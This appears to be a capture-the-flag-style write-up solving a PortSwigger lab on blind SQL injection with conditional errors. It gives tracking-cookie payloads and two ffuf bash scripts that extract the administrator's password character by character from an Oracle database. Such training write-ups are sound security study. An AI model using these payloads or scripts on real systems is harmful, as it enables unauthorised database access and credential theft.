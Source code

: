 # Blind SQL injection with conditional errors

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

![Lab Description](img/lab-description.png)

## Analysis

According to the lab description, the application uses a tracking cookie for analytics and performs an SQL query containing the value of the submitted cookie. If the SQL query causes an error, then the application returns a custom error message.

**First, let's determine how many columns the query returns using the below payload.**

```bash
TrackingId=YOUR-TRACKING-ID'+ORDER+BY+1+--
```

In my case, the query returns only one column.

The second step is to determine which database is the application using. You can use [this cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to craft a payload that determines the database type.

```bash
TrackingId=zmE1DO7belNvmYmn'+UNION+SELECT+banner+FROM+v$version+--
```

## Solution

Now that we know which database the application is running and how many columns the query returns. We can move forward and craft a payload that returns an error if a certain condition is true.

Like in the below payload if username `administrator` exists on table `users` it will cause an `Internal server error`.

```bash
TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--
```

*Use the below command to determine the length of the administrator password.*

```bash
#!/bin/bash

echo {0..30} | tr ' ' '\n' > range.txt

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator'+AND+length(password)=FUZZ)+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--" \
    -w range.txt \
    -mc 500
```

**After determining the length of the password extract the administrator's password character by character.**

```bash
#!/bin/bash

echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt

end=YOUR-PASSWORD-LENGTH

for i in $(seq 1 "$end"); do
ffuf -X GET \
        -u https://YOUR-LAB-ID.web-security-academy.net \
        -H "Cookie: TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,$i,1)='FUZZ')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--" \
        -w chars.txt \
        -mc 500
done
```

After extracting the administrator password login to solve this lab.

![Lab Solved](img/lab-solved.png)
